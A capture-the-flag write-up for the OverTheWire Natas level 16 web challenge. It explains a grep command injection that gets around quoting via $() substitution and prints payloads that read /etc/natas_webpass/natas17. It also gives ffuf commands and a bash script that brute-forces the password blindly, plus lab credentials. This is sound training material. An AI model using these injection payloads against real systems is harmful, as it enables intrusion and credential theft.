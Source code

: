 # Level 15 - Level 16

```
Username: natas16
Password: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
URL:      http://natas16.natas.labs.overthewire.org
```

## Overview

This time we got an input field with an link to the source code.&#x20;

<figure><img src="../.gitbook/assets/image (124).png" alt=""><figcaption></figcaption></figure>

***

## Source Code Analysis

On checking the source code, input keyword/string that we give is directly supplied as a parameter to the grep command, which looks out for matching strings in the `dictionary.txt` file and returns the output.

<figure><img src="../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

This time the `$key` is enclosed with quotes which means whatever special characters or command we give will be considered as a string. And also this time all types of quotes are also blacklisted.

But still the above code is vulnerable to command injection, since we can use `$()` to execute shell commands. But we have to create a payload such that we extract data using the grep command, since the input is substituted in a grep command.

***

## Testing Command Injection

We can use grep and regexp and try to match data from `/etc/natas_webpass/natas17` and extract the password by brute-forcing. For that first we need a wordlist of alphanumeric characters ( since we know that the password only contains alphanumeric characters ), which can be generated using the following command.

```bash
echo {a..z} {A..Z} {0..9} | tr ' ' "\n" > alphanumeric.txt
```

Next for brute-forcing the input, I am using [ffuf](https://github.com/ffuf/ffuf), since its fast and optimized. But before we start brute-forcing, we need to find a way to filter the response, to check whether the data is matched or not.

To do that, first we have to find a unique word, that is present in the `dictionary.txt` from which the words are filtered by the application. To do so, I searched for words containing the letter `a`. It responded me with a list of words that contains the letter `a`, from which I chose the word `Americanisms`, as it is not repeated.

<figure><img src="../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

Now, whenever we try to grep the character from passwords file, for example we are giving the following input: `Americanisms$(grep ^b /etc/natas_webpass/natas)`, which will respond with the value `Americanisms`, since the password doesn't start with the character `b`.

Let's break down the payload: `Americanisms$(grep ^b /etc/natas_webpass/natas)`

We are using grep to lookout for words starting with `b`. If our password starts with the letter b, then the grep command will return the password prepended with the word `Americanisms` ( `Americanisms<grep_password>` ), but since our input is enclosed within quotes,&#x20;

<figure><img src="../.gitbook/assets/image (129).png" alt=""><figcaption></figcaption></figure>

the resulting command will be,

```bash
grep -i \"Americanisms$(grep ^b /etc/natas_webpass/natas)\" dictionary.txt
```

where the string `Americanisms<grep_password>` will be searched in the `dictionary.txt`, which returns nothing since there is no string word like `Americanisms<grep_password>` in the `dictionary.txt`.

But if the password doesn't start with the character `b`, then the resulting string will be `Americanisms`, since the result of the grep command will be null as the password doesn't start with the character `b`, the string `Americanisms` will be searched in the `dictionary.txt`,  which will return the word `Americanisms`.

<figure><img src="../.gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

Now we have a way to filter our response, i.e., if our response has the word `Americanisms`, then our password doesn't starts with the character we tried. If our response doesn't has the word `Americanisms`, then our password starts with the character we tried. Let's test this using ffuf:

```bash
ffuf -w alphanumeric.txt:FUZZ -u 'http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5EFUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms"
```

<figure><img src="../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

The ffuf command successfully worked, and we have successfully found our first character of the password. To find the next character, we have to append the first character that we found to the payload this time: `Americanisms$(grep ^X /etc/natas_webpass/natas)`.

```bash
ffuf -w alphanumeric.txt:FUZZ -u 'http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5EXFUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms"
```

<figure><img src="../.gitbook/assets/image (132).png" alt=""><figcaption></figcaption></figure>

Now we got our second character.

***

## Getting the Password

To get the third character we have to prepend `Xk` to the command. This process repeats unitil we find the entire password. So I have created a simple bash script to automate this process:

{% code lineNumbers="true" %}
```bash
#! /bin/bash

PASSWORD=""

for i in {1..32} # Since we know the length of the password is 32
do
    PASSWORD+=$(ffuf -w alphanumeric.txt:FUZZ -u "http://natas16.natas.labs.overthewire.org/?needle=Americanisms%24%28grep+%5E"$PASSWORD"FUZZ+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search" -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7'    -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' -H 'Authorization: Basic bmF0YXMxNjpUUkQ3aVpyZDVnQVRqajlQa1BFdWFPbGZFakhxajMyVg==' -H 'Proxy-Connection: keep-alive' -H 'Referer: http://natas16.natas.labs.overthewire.org/?needle=%24%28grep+-E+%5Ea+%2Fetc%2Fnatas_webpass%2Fnatas17%29&submit=Search' -H 'Upgrade-Insecure-Requests: 1' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36' -fr "Americanisms" -v | grep "* FUZZ:" | cut -d ':' -f 2 | tr -d ' ')
done

echo Password = $PASSWORD
```
{% endcode %}

It's time to run the script:

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

And finally we got the password for the next level.

<figure><img src="../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>
